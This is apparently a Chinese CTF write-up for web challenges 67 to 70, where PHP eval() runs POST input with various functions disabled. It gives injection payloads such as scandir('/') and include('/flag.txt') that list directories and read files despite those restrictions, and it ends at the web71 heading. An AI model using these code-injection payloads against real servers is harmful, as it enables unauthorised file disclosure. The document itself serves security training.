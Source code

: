 ## web67（突破禁用函数）
```php
<?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```
尝试后发现print_r被禁用了，这次使用var_dump打印，按照上题的思路，查看根目录
payload: c=var_dump(scandir('/'));
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637894193264-98070937-927a-40ef-8c66-610fd4c3cb1f.png#)
于是最终payload：c=highlight_file('/flag.txt');

## web68（突破禁用函数）
```php
Warning: highlight_file() has been disabled for security reasons in /var/www/html/index.php on line 19
```
代码看不到了，看报错是因为highlight_file()被禁用了，一样，看一眼根目录，找到flag.txt
payload：c=var_dump(scandir('/'));
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637894386021-ca8d69b4-6cc8-4d85-902f-a02477ddbafd.png#)
这次使用include包含flag.txt
payload：c=include('/flag.txt');
还可以用require函数，文档是这样说的：

> **include 和 require 语句用于在执行流中插入写在其他文件中的有用的代码。**
> **include 和 require 除了处理错误的方式不同之外，在其他方面都是相同的：**
> - **require 生成一个致命错误（E_COMPILE_ERROR），在错误发生后脚本会停止执行。**
> - **include 生成一个警告（E_WARNING），在错误发生后脚本会继续执行。**

## web69（突破禁用函数）
打开一看，还是highlight_file()函数被禁用，var_dump也被禁用了，这次使用var_export()
以下是文档说明
> **var_export() 函数用于输出或返回一个变量，以字符串形式表示。**
> **var_export() 函数返回关于传递给该函数的变量的结构信息，它和 var_dump() 类似，不同的是其返回的是一个合法的 PHP 代码。**
> **PHP 版本要求: PHP 4 >= 4.2.0, PHP 5, PHP 7**

payload：c=var_export(scandir('/'));打印根目录文件
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637895933556-8c24e369-4599-4a9d-81bb-1d80eaa94e87.png#)
最终payload：c=include('/flag.txt');
## web70（突破禁用函数）
```php

Warning: error_reporting() has been disabled for security reasons in /var/www/html/index.php on line 14

Warning: ini_set() has been disabled for security reasons in /var/www/html/index.php on line 15

Warning: highlight_file() has been disabled for security reasons in /var/www/html/index.php on line 21
你要上天吗？
```
没什么难度，和上一题一样的操作
最终payload：c=include('/flag.txt');
## web71（突破禁用函数）